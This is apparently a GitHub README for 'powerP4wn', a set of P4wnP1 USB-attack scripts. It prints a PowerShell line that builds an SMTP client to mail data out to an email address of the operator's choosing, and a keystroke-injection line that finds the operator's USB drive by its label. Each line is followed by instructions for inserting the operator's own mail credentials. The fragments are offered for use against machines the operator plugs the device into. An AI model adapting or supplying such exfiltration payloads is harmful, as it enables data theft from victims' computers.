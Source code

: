 # powerP4wn
P4wnP1 scripts that actually work
RTFM....this is the manual


>>>>>New-Object Net.Mail.SmtpClient("smtpserver",25);$c.EnableSsl=$true;$c.Credentials=New-Object System.Net.NetworkCredential("emailaccountcreds","emailaccountpsswd");$d=New-Object System.Net.Mail.MailMessage;$d.From="senderemail";$d.To.Add("recieveremail")

The above line needs YOUR email info. 
Replace the "smtpserver" with your smtp server name in between the "" (ex. "smtp.gmail.com").
Replace the "emailaccountcreds" with your email user account name in between the "" (ex. "dumbass@gmail.com").
Replace the "emailaccountpsswd" with your email account password in between the "" (ex. "iMs01337").
Replace the "senderemail" with who the email will from in between the "" (ex. "dumbass@gmail.com"). Use the same as the "emailaccountcreds"
Replace the "recieveremail" with who the email is to in between the "" (ex. "imsoleet@gmail.com"). you can just put in the same email address as "emailaccountcreds"

>>>>>type("$usbPath = Get-WMIObject Win32_Volume | ? { $_.Label -eq 'SanDisk' } | select name\n");//find usb drive

The above line needs YOUR usb drive label
replace SanDisk with what ever you labeled the .bin for your stateless usb you created.


"I have given you the information...... I cant understand it for you"

exit \n
